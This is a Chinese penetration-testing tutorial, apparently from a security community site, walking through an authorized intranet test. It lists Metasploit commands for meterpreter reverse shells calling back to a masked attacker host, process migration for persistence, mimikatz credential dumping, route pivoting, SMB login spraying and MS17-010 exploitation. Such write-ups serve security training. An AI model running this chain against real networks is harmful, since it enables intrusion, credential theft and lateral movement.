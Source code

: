 

# 【基础向】实战讲解内网渗透思路 - 先知社区

【基础向】实战讲解内网渗透思路

- - -

## 简介

> 本次测试为实战测试，测试环境是授权项目中的一部分，敏感信息内容已做打码处理，仅供讨论学习。由于本人在内网方面的掌握也是属于新手阶段，运用到的一些**msf**攻击手法也很基础，请各位表哥多多指教。

## 获得 shell

Getshell 的过程没什么好说的，无非简单的后台弱口令到上传然后冰蝎连接 getshell。  
获得 shell 后，模拟终端`ping 8.8.8.8`有返回包，说明该服务器与外网互通。  
[![](assets/1698900931-6ae4ae855a6b8959426705b4debadd5d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209134756-73618e86-1a47-1.png)  
既然跟外网互通，那么可以尝试直接使用 msf 的`exploit/multi/handler`配合冰蝎反弹 shell 来获得 session

```plain
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost xxx.xxx.xxx.xxx
set lport 5665
run
```

[![](assets/1698900931-3957d515307d621d550796c88fc94a73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135404-4ec3890c-1a48-1.png)  
但是结果很不尽人意，没能够成功获得 session。  
在使用冰蝎模拟终端收集信息过程中，发现本地有**powershell**进程。  
[![](assets/1698900931-fd8d020acdf7e71972ec5ae5bb58776d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135548-8c38c8ba-1a48-1.png)  
再次打开**msf**，本次尝试使用`web_delivery`配合终端执行 powershell 指令来获得 session。

```plain
User exploit/multi/script/web_delivery
Set targets 2
set payload windows/x64/meterpreter/reverse_https
set lhost xxx.xxx.xxx.xxx
set lport 4332
set srvport
run
```

[![](assets/1698900931-e9fd94764385c49c10524401a540af7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135830-ecdfee3c-1a48-1.png)  
[![](assets/1698900931-25c46c0389f22d45dd822f42e848489c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135937-15029c52-1a49-1.png)  
获得 payload，使用冰蝎或者 C 刀模拟终端直接执行，成功获得 session，执行`getuid`发现权限为 system 权限，省去了提权过程。  
[![](assets/1698900931-55d5b1efd52a7fb15ec57678aad81c52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140017-2ce8122a-1a49-1.png)

## 权限维持

> 为了获得一个持久稳定的高权限 session，我们需要将当前的 session 进程迁移到一个持久、坚挺又稳定的进程上，防止突然暴毙（咳咳）

我们使用 ps 查看当前进程，然后选中一个看起来比较持久的幸运儿 spoolsv.exe(这是一个用来控制打印的进程，我遇到的机器基本都开启了此进程)  
**注意：**选择进程的时候优先选择系统进程，这种比较持久且为 system 权限

```plain
migrate 进程号
getpid
```

[![](assets/1698900931-758f3329c18cce1c71f0b31ef78d67c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140451-d0501d4a-1a49-1.png)

## 内网信息搜集

> 不管是在什么类型的渗透环境下，信息搜集永远是不可缺少的一环，他决定了你渗透的效率，可以让你在渗透过程中少走很多弯路，毕竟在项目上尤其是红蓝攻防中，最缺的永远是时间

接下来，查看 IP 信息以及 arp 缓存，查看网段分布情况：  
[![](assets/1698900931-36ab2b9d9807ce6d6f661ce9e23a7432.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140655-19d6eae8-1a4a-1.png)  
[![](assets/1698900931-c553ff6a162810eb3776fd32a9651311.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140706-20537814-1a4a-1.png)  
发现该服务器只存在 192.168.10.0/24 网段的信息  
于是继续查看其他信息

```plain
Netstat -ano
```

发现服务器开放 3389 端口：  
[![](assets/1698900931-f8c185a345e209c2f53a49ac533c62e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209141402-18b20da4-1a4b-1.png)  
既然开启了 3389 端口，我们使用端口转发，登录到服务器看看有没有意外收获。

```plain
portfwd add -l 6666 -p 3389 -r 127.0.0.1
```

IP 有了，3389 开了，现在我们缺少的是用户名密码  
直接**meterpreter**下加载**mimikatz**

```plain
Load mimikatz
Wdigest
```

[![](assets/1698900931-1ac8327fbae6fc4a2cea30b6dae3731f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209142902-30e67f70-1a4d-1.png)  
比较遗憾的是没能获取到明文密码，但是我这边使用**cobalt strike**加载的**mimikatz**成功获取到明文密码  
emmm 总之搞不懂的地方先归为玄学问题  
[![](assets/1698900931-43af818f0afcf5a679a090f46da7fe3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209143603-2bae2566-1a4e-1.png)  
现在，密码也有了，mstsc 链接目标 3389 端口成功**此处涉及的敏感信息较多，放弃截图，我尽量用语言表述清楚思路**  
上传**netpass**查看 rdp 缓存，无果，但是发现系统有**VNC**

> **VNC:**VNC (Virtual Network Console) 是虚拟网络控制台的缩写，是一款远程控制工具软件。

查看 VNC 相关文件发现新的网段信息，但是没有保存的连接信息，不过能获得新的网段信息也是知足了  
[![](assets/1698900931-7c244caaa37e3fcd020fc6092f0c9c6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144126-ec323fb6-1a4e-1.png)

## 横向

> 至此，信息收集部分其实也就差不多，接下来我们开始尝试横向移动

根据之前发现的网段信息以及服务器本机的路由信息，我们手动添加路由

```plain
Run autoroute -s 192.168.10.0/24
Run autoroute -s 172.16.0.0/24
……
```

其他网段同理，添加路由之后`bg`退回到控制台  
先使用`auxiliary/scanner/smb/smb_version`模块扫描一下各网段的**smb**服务开启情况

```plain
Use auxiliary/scanner/smb/smb_version
set rhosts 192.168.10.0/24
set threads 10
run
```

[![](assets/1698900931-922e8d47a74f5a973b8ac5d3ff55d77c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144539-8317f9b6-1a4f-1.png)  
可以看到，活着的机器还挺多。  
[![](assets/1698900931-b3f7a4bf570e5287969dddef78eca758.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144709-b8b5d868-1a4f-1.png)  
然后，使用`auxiliary/scanner/smb/psexec_loggedin_users`模块配合已获得的两组账户密码进行横向

```plain
Use auxiliary/scanner/smb/psexec_loggedin_users
Set rhosts 192.168.10.0/24
Set smbuser username
Set smbpass password
Set threads 5
run
```

[![](assets/1698900931-277d5d759de0034f58f6238a47d0fe1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144910-00e241ee-1a50-1.png)  
尴尬，横向失败，居然没有用同账户密码  
[![](assets/1698900931-13683ba0bd6cc6e2b06d15afa78468f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144830-e950ff84-1a4f-1.png)  
既然横向失败，可以考虑最简单的，但也是最实用的大杀器，ms17-010  
先使用`scanner`模块扫描一下哪些机器可能存在 ms17-010 的漏洞

```plain
Use auxiliary/scanner/smb/smb_ms17_010
Set rhosts 192.168.10.0/24
Set thread 20
Run
```

[![](assets/1698900931-048098820260e435cac82668b4cc4dfb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209145024-2d657c18-1a50-1.png)  
由于打 ms17-010 的流量比较大，为了防止死掉，我根据扫描出来的结果，针对性的选择一台感觉比较容易搞的目标，单独打。  
此处试了很多机器，好多都打了补丁，不过也有漏网之鱼，此处单独拿一台示例：  
Use auxiliary/admin/smb/ms17\_010\_command  
set rhost 192.168.10.18  
set command whoami  
run  
[![](assets/1698900931-c0b822ffbc835c0ba8030a0e207c313e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209145136-57e4b2d8-1a50-1.png)  
成功执行，是 system 权限，同理 command 换成弹 shell 的命令，便可以获得该机器的权限。  
[![](assets/1698900931-8dc53c08169105a34fb3539e9ee3008c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209145151-60f91abc-1a50-1.png)  
获得新机器的权限之后，便可以围绕新机器进行新一轮的信息搜集，然后不断横向，进一步扩大内网战果，以下，就不在多做测试。  
另外对于**ms17-010**，如果说打 2003 的机器，建议使用`auxiliary/admin/smb/ms17_010_command`模块进行执行命令获得 session；其他的可以直接使用`exploit/windows/smb/ms17_010_eternalblue`或者 exploit/windows/smb/ms17\_010\_psexec 来直接获得 session。

## 写在最后

咕某人提醒您：道路千万条，安全第一条；渗透不规范，亲人两行泪。  
以上渗透测试过程纯属本人杜撰，渗透是不可能渗透的，这辈子都不可能渗透的。  
最后，对于过程中有任何疑问都可以评论留言，我会的会一一回复，不会的也能让路过的表哥给康康，说不定表哥就给解决了呢，嘿嘿（发出了白嫖的笑声）。
